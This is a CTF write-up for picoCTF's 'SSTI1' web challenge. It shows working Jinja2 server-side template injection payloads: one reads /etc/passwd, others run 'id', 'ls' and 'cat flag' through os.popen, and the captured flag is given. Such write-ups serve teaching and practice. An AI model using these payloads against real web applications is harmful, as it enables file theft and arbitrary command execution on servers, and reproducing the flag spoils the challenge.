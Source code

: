 # SSTI1

## Description
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:59563/)!
## Solve
1. First we connect to the challenge with the given link.

2. Lets inspect the source code to see if we can find something interesting.
```HTML
<!doctype html> <title>SSTI1</title>  
<h1> Home </h1>  
<p> I built a cool website that lets you announce whatever you want!* </p>  
<form action="/" method="POST"> What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button> </form> <p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

3. If we type something that we want to announce, we can see that the site just displays what we enter, but bigger.
```HTML
<!doctype html>
<h1 style="font-size:100px;" align="center">something</h1>
```

4. If we search for what SSTI stands for, we will see that it means Server Side Template Injection, which according to PortSwigger "is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side".

5. "With this in mind, let's try to identify what kind of SSTI we are dealing with, let's try do identify it with the payloads from https://github.com/swisskyrepo/PayloadsAllTheThings

6. It seems like it is using Python + Jinja2. If we try this commands we get the correct results:
```python
{{4*4}}[[5*5]] #16[[5*5]]
{{7*'7'}} would result in 7777777 # 7777777 would result in 7777777
{{config.items()}} ## dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

7. So, let's keep searching for a payload that allow us to achieve remote code execution, let's try this one to read files:
```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

```response
# root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
We succeeded.

8. If we execute the next payload, we can exploit the SSTI calling os.popen().read():
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
#uid=0(root) gid=0(root) groups=0(root)
```

9. And now, we can simply modify it to execute the command we want:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
#__pycache__
#app.py
#flag
#requirements.txt

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```

10. And that's how we got the flag:
```flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```

## Additional Notes 

## References

https://portswigger.net/web-security/server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings